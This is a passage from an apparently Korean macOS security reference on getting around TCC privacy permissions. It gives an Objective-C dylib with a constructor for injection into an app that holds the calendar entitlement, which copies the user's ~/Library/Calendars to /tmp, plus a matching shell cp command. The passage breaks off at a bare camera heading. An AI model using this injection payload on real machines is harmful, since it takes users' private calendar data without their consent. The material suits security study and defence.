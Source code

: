 ### 캘린더

* **권한**: `com.apple.security.personal-information.calendars`
* **TCC**: `kTCCServiceCalendar`

{% tabs %}
{% tab title="ObjectiveC" %}
`$HOME/Library/Calendars`를 `/tmp/calendars`로 복사합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
NSString *tmpPhotosPath = @"/tmp/calendars";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
`$HOME/Library/Calendars`를 `/tmp/calendars`로 복사합니다.
```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
{% endtab %}
{% endtabs %}

### 카메라

* **권한**: `com.apple.security.device.camera`
* **TCC**: `kTCCServiceCamera`
